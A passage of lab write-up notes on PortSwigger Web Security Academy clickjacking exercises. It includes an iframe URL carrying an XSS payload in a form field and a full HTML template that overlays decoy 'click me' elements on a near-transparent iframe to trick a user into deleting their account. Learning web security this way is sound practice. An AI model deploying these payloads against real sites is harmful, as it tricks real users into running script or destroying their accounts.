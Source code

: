 ```html
	}
</style>

<div>Click me</div>

<iframe src="https://0a5f0092043d15df82eaa64900a300b3.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=paeinnn@test.com&subject=test&message=test"></iframe>
```

- we will trick the victim into performing the XSS on clicking submit form button
	![](Pasted%20image%2020241216193118.png)![](Pasted%20image%2020241216194836.png)

## 5. Multistep clickjacking
This lab has some account functionality that is protected by a CSRF token and also has a confirmation dialog to protect against Clickjacking. To solve this lab construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. You will need to use two elements for this lab.

You can log in to the account yourself using the following credentials: `wiener:peter`

**Analysis**:
1. Log in to your account on the target website and go to the user account page.
2. Go to the exploit server and paste the following HTML template into the "Body" section:
```html
<style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:$top_value1;
		left:$side_value1;
		z-index: 1;
	}
   .secondClick {
		top:$top_value2;
		left:$side_value2;
	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```
3. Make the following adjustments to the template:
    - Replace `YOUR-LAB-ID` with your unique lab ID so that URL points to the target website's user account page.
    - Substitute suitable pixel values for the `$width_value` and `$height_value` variables of the iframe (we suggest 500px and 700px respectively).
    - Substitute suitable pixel values for the `$top_value1` and `$side_value1` variables of the decoy web content so that the "Delete account" button and the "Test me first" decoy action align (we suggest 330px and 50px respectively).
    - Substitute a suitable value for the `$top_value2` and `$side_value2` variables so that the "Test me next" decoy action aligns with the "Yes" button on the confirmation page (we suggest 285px and 225px respectively).
    - Set the opacity value `$opacity` to ensure that the target iframe is transparent. Initially, use an opacity of 0.1 so that you can align the iframe actions and adjust the position values as necessary. For the submitted attack a value of 0.0001 will work.